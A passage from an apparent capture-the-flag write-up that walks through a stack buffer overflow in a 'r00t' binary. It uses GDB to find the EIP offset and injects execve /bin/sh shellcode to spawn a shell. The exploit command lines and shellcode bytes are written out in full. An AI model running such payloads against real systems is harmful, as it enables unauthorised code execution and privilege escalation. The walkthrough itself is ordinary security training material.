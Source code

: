 Taking a closer look at the registers and stack:

``` plain
(gdb) r $(python -c "print 'A' * 268 + 'B' * 4 + 'C' * 16")

Starting program: /nothing_to_see_here/choose_wisely/door3/r00t $(python -c "print 'A' * 268 + 'B' * 4 + 'C' * 16")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info r
eax            0x120	288
ecx            0x0	0
edx            0x0	0
ebx            0xb7fd1ff4	-1208147980
esp            0xbffffb50	0xbffffb50
ebp            0x41414141	0x41414141
esi            0x0	0
edi            0x0	0
eip            0x42424242	0x42424242
eflags         0x210286	[ PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x $esp
0xbffffb50:	0x43434343
```

ESP has been overwritten with part of our string, so we can craft some shellcode and jump to the address of ESP to execute it. I picked the [Linux x86 execve /bin/sh](https://www.exploit-db.com/exploits/40131/) shellcode, which is 19 bytes long.


What we have now for a functional exploit:

* 268 bytes to fill the buffer

* overwrite EIP with the address of ESP, which is <code>0xbffffb50</code>, and in little endian it is <code>\x50\xfb\xff\xbf</code>

* NOP sled for padding

* shellcode: <code>\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80</code>

Ran the exploit in GDB:

``` 
(gdb) r $(python -c 'print "A" * 268 + "\x50\xfb\xff\xbf" + "x90" * 16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80"')
Starting program: /nothing_to_see_here/choose_wisely/door2/r00t $(python -c 'print "A" * 268 + "\x50\xfb\xff\xbf" + "x90" * 16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80"')
process 1838 is executing new program: /bin/dash
$ id
uid=1002(noob) gid=1002(noob) groups=1002(noob)
```
